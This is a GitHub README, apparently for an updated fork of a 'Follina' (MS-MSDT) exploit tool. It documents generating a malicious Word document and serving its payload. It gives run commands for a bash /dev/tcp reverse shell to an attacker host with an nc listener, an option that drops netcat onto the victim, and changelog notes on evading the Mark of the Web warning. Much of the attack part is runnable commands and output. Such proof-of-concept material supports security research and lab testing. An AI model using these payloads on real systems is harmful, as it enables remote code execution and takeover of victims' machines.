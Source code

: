 # MS-MSDT "Follina" Attack Vector, Updated Version 2025

## Edited/Added:

- Fixed Options error in TCP Server log
- Added Copy of doc file to Http Server for directly download payload
- Added some Text to doc file for "maybe easy" bypassing Mark of the Web info banner
- Some extra stuff in codebase


## Run Script

- Download Win10_21H2_English_x32.iso (Build 19044.1288)
- Install/Run on Virtualbox or other VM
- Download Office 32bit (ODT not working for me at this point)
- `bitsadmin /TRANSFER O13DL /DOWNLOAD /PRIORITY high https://ia803209.us.archive.org/29/items/microsoft-office-2013-pro-plus-sp-1-english-32-bit_202005/Microsoft-Office-2013-Pro-Plus-SP1-English-32Bit.zip C:\office32.zip`
- Unzip and run follina.py

## Run

```bash
# Calc only
python3 follina.py -i eth0 -p 8008
```

```bash
# Multiple programs and MsgBox
python3 follina.py -i enp0s3 -p 8008 -c 'calc ; winver ; Add-Type -AssemblyName "System.Windows.Forms"; [System.Windows.Forms.MessageBox]::Show("This is Follina PoC Edit by suuhm 2025", "Follina PoC", [System.Windows.Forms.MessageBoxButtons]::OK, [System.Windows.Forms.MessageBoxIcon]::Warning, [System.Windows.Forms.MessageBoxDefaultButton]::Button1, [System.Windows.Forms.MessageBoxOptions]::DefaultDesktopOnly) ; notepad'
```

```bash
# Reverse LOLBIN shell
nc -lnvp 5555
python3 follina.py -i enp0s3 -p 8008 -c "export RHOST=<RHOST_IP>;export RPORT=5555;bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'"
```

---


![grafik](https://github.com/user-attachments/assets/6adefab8-b657-4e98-bcd8-37d83db8387a)



---

> John Hammond | May 30, 2022

--------------

Create a "Follina" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

![Screenshot](https://user-images.githubusercontent.com/6288722/171033876-dbe73e3e-0a3a-436a-91d8-7fa77a5c1ace.png)

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

# Examples

Pop `calc.exe`:

```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```
$ python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```
$ python3 follina.py -r 9001
```

![Reverse Shell](https://user-images.githubusercontent.com/6288722/171037880-03a73d6a-4606-4c42-abcb-ee52a9e669c6.png)
